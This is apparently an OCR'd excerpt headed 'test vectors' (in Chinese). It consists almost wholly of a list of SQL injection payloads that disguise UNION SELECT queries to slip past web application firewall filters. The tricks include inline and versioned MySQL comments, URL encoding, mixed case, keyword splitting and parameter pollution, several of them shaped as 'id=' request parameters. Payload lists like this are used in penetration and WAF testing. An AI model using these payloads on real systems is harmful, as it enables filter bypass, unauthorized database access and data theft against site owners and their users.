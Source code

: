 d) 测试向量
``` sql  
%55nion(%53elect 1,2,3)-- -
+union+distinctROW+select+
  
/**//*!12345UNION SELECT*//**/
  
/**/UNION/**//*!50000SELECT*//**/
  
/*!50000UniON SeLeCt*/
  
+#uNiOn+#sEleCt
  
+#1q%0AuNiOn all#qa%0A#%0AsEleCt
  
/*!u%6eion*/ /*!se%6cect*/
  
+un/**/ion+se/**/lect
  
uni%0bon+se%0blect
  
%2f**%2funion%2f**%2fselect
  
union%23foo*%2F*bar%0D%0Aselect%23foo%0D%0A
  
REVERSE(noinu)+REVERSE(tceles)
  
/*--*/union/*--*/select/*--*/
  
union (/*!/**/ SeleCT */ 1,2,3)
  
/*!union*/+/*!select*/
  
union+/*!select*/
  
/**//*!union*//**//*!select*//**/
  
/*!uNIOn*/ /*!SelECt*/
  
+union+distinctROW+select+
  
-15+(uNioN)+(sElECt)
  
-15+(UnI)(oN)+(SeL)(ecT)+

id=1+UnIOn/**/SeLect 1,2,3—
  
id=1+UNIunionON+SELselectECT 1,2,3—
  
id=1+/*!UnIOn*/+/*!sElEcT*/ 1,2,3—
  
id=1 and (select 1)=(Select 0xAA 1000 more A's)+UnIoN+SeLeCT 1,2,3—
  
id=1+un/**/ion+sel/**/ect+1,2,3--
  
id=1+/**//*U*//*n*//*I*//*o*//*N*//*S*//*e*//*L*//*e*//*c*//*T*/1,2,3
  
id=1+/**/union/*&id=*/select/*&id=*/column/*&id=*/from/*&id=*/table--
  
id=1+/**/union/*&id=*/select/*&id=*/1,2,3--
  
id=-1 and (select 1)=(Select 0xAA*1000) /*!UNION*/ /*!SELECT*//**/1,2,3,4,5,6—x

/**/union/*&id=*/select/*&id=*/column/*&id=*/from/*&id=*/table--
```